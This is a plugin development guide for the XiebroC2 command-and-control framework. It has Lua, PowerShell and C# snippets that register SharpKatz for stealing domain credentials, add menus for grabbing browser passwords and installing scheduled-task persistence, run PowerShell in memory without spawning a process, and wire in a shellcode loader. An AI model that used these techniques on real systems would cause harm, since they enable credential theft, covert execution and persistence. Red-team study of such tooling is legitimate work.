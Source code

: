 # Table of Contents

- [1. Extend external form](#1 Extend external form)

- [2. Extend Session command](#2 Extend session command)

- [3. Extend function menu bar](#3 Extend function menu bar)

- [4. Menu bar arrangement](#4 Menu bar arrangement)

- [5. Use built-in API to extend form](#5 Use built-in API to extend form)

When writing plug-ins, please refer to the function prototype carefully: [XiebroC2-PluginsFunctions](https://github.com/INotGreen/Xiebro-Plugins/blob/main/Function.md)

## 1. Extend external form

xiebroC2 provides a simple plug-in interface, which can lower the threshold of plug-in writing and realize the plug-in system like CobaltStrike

For example, to add a shellcode separation loader to the top menu bar of the control end:

<video src="https://private-user-images.githubusercontent.com/89376703/311126700-913d66d5-fe82-459a-8b3d-ea73682a9bb7.mp4?" width="640" height="480" controls></video>

- Convert Winform .Net program to XiebroC2's lua plug-in

```powershell
Import-Module .\Convert-NetToLua.ps1
Convert-NetToLua -infile .\Plugins.exe -Output a.lua -Name loader
```

When writing winform, you need to change the entry point to the following. If it is started by Application.EnableVisualStyles, when it is converted to a lua plug-in, the main control end will report an error when loading

```C#
internal static class Program
{
/// <summary>
/// The main entry point of the application.
/// </summary>
[STAThread]
static void Main()
{
Form1 form1 = new Form1();
form1.ShowDialog();
}
}
```

## 2. Extend Session command

<img src="Image\\image-20240308134300864.png" />

Add external command in command list

```lua
AddCommand(
"SharpKatz", --Name
"Plugins\\SharpKatz.exe", -- FilePath
"execute-assembly", --load type
"Steal domain login credentials", --Descripttion
"SharpKatz -h" --Usage
)
```

- The third parameter of AddCommand has three loading methods. If it is a .net assembly, select "execute-assembly" and "Inline-assembly". If it is a PE file written in C/C++/Golang/rust/nim, select RunPE
- SharpKatz command added successfully

<img src="Image\\image-20240308144452120.png" />

## 3. Extended function menu bar

```lua
AddMenuItemA("Pentest", null)
AddMenuItemB("GetIPInfo", "", function() Nopowershell("ipconfig", "1") end)
```

- AddMenuItemB has one more parameter for click event than AddMenuItemA (similar to callback function). Lua does not seem to support overloading, so I use function A and B to distinguish.

- Nopowershell can execute unmanaged powershell in memory without starting the Powershell.exe process. In fact, you can refer to the code example of [nopowershell](https://github.com/INotGreen/Nopowershell).

- It is worth noting that whether Nopowershell execution creates a child process depends on the parameter configuration in Profile.json. If Fork is false, powershell is executed without a process.

```json
{
"TeamServerIP": "192.168.1.250",
"TeamServerPort": "8880",
"Password": "123456",
"StagerPort": "4050",
"Telegram_Token": "",
"Telegram_chat_ID": "",
"Fork": false,
"Route": "www",
"Process64": "C:\\windows\\system32\\notepad.exe",
"Process86": "C:\\Windows\\SysWOW64\\notepad.exe",
"WebServers": [],
"listeners": [],
"rdiShellcode32": "",
"rdiShellcode64": "",
}
```

## 4. Menu bar arrangement

```lua
AddMenuItemA("Pentest", null)
AddMenuItemA("CollectInfo", null) --
AddMenuItemA("Grab browser Passwords", null)
AddMenuItemA("Persistence", null)
AddMenuItemA("Scheduled Tasks", null)
AddMenuItemB("Installation", "", SchTaskForm)
AddMenuItemB("Privilege", null, function() Sessionlog("Message") end)

AddMenuItemB("4.0", "", function() Nopowershell("ipconfig", "1") end)

local menuStructure = {
["Pentest"] = {"CollectInfo", "Persistence", "Privilege"},
["CollectInfo"] = {"Grab browser Passwords"},
["Persistence"] = {"Scheduled Tasks"},
["Scheduled Tasks"] = {"Installation"},
["Privilege"] = {"4.0"}
}
for parent, subs in pairs(menuStructure) do AddMenuItemsAsSubItems(parent, subs) end
```

In this way, you can organize the parent-child relationship of the menu bar

<img src="Image\image-20240308150949896.png" />

## 5. Extend the form using the built-in API

```lua
local function SchTaskForm()
local IsOK = false
local Form1 = CreateForm("sch", 422, 355)

local Label1 = Addlabel(Form1, "Interval(min):", 17, 33, 133, 25)
local Label2 = Addlabel(Form1, "Select File:", 31, 103, 114, 25)
local Label3 = Addlabel(Form1, "Directory:", 28, 174, 114, 25)

local addButton = AddSelectFileButton(Form1, "Select", 162, 100, 181, 33)
local texBox1 = AddTextBox(Form1, 162, 31, 181, 33)
local ComBox1 = AddComBox(Form1, 162, 174, 181, 33)
local Button1 = AddButton(Form1, "Ok", 36, 234, 106, 37, function()
if texBox1.Text ~= "" and ComBox1.Text ~= "" and addButton.Text ~=
"Select" then -- The values of texBox1 and ComBox1 can't be empty strings, otherwise this window
IsOK = true
Form1:Hide()

else
IsOK = false
MessageBoxA("adas")
end
end)

local Button2 = AddButton(Form1, "close", 236, 234, 107, 37,
function() Form1:Close() end)
Form1:ShowDialog()
if IsOK then
local FileName = GetFileName(addButton.Text)
local UploadFilePath = ComBox1.Text .. "\\" .. FileName
Upload(UploadFilePath, addButton.Text)
InlineAssembly("Plugins\\Scheduled.exe", texBox1.Text)
end
end

AddMenuItemB("Task installer", "", SchTaskForm)
```
